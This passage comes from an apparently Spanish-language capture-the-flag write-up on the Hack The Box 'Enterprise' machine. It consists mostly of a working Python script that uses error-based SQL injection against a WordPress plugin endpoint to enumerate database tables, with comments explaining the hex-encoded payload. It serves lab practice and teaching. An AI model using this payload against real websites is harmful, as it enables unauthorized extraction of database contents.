 ```py

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2:                     
    print("\n[!] Usage: python3 " + sys.argv[0] + " <database>\n")
    exit(0)

url = "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php"
result = ""

# Recibimos como argumento la base de datos y la convertimos a hexadecimal
session = requests.Session()
db_name = sys.argv[1]
db_name_hex = db_name.encode('utf-8').hex()

p1 = log.progress("Extrayendo tablas de la base de datos %s" % (db_name))
p2 = log.progress("Payload")

# En el caso de que existan 100 tablas
for table_position in range(0,100):

    # 0x5441424C45 = TABLE
    # 0x%s = El nombre de la base de datos en hexadecimal
    ## Resultado: i.e -> TABLEestaeslatablaTABLE
    payload = "(SELECT 8350 FROM(SELECT COUNT(*),CONCAT(0x5441424C45,(SELECT MID((IFNULL(CAST(table_name AS NCHAR),0x20)),1,50) FROM "
    payload += "INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x%s) LIMIT %d,1),0x5441424C45,FLOOR(RAND(0)*2))x " % (db_name_hex, table_position)
    payload += "FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)nada)"

    data_get = {"query" : "1 or " + payload}
    p2.status(data_get["query"])
    r = session.get(url, params=data_get)

    if "Duplicate" not in r.text:
        break

    p3 = log.progress("Tabla [%d]" % (table_position))

    # Tomamos el resultado y extraermos lo que este entre la E (e final de TABLE) y la T (t inicial de TABLE), esa seria la tabla.
    result += re.findall(r'E(.*?)T', r.text)[0]
    p3.success(result)
    result = ""

p1.success("d0Ne")
p2.success("d0Ne")
print("\nk3Ep br3ak1n6 4anYyyu...\n")
```

Ahora si, probemos con la base de datos **wordpress**:
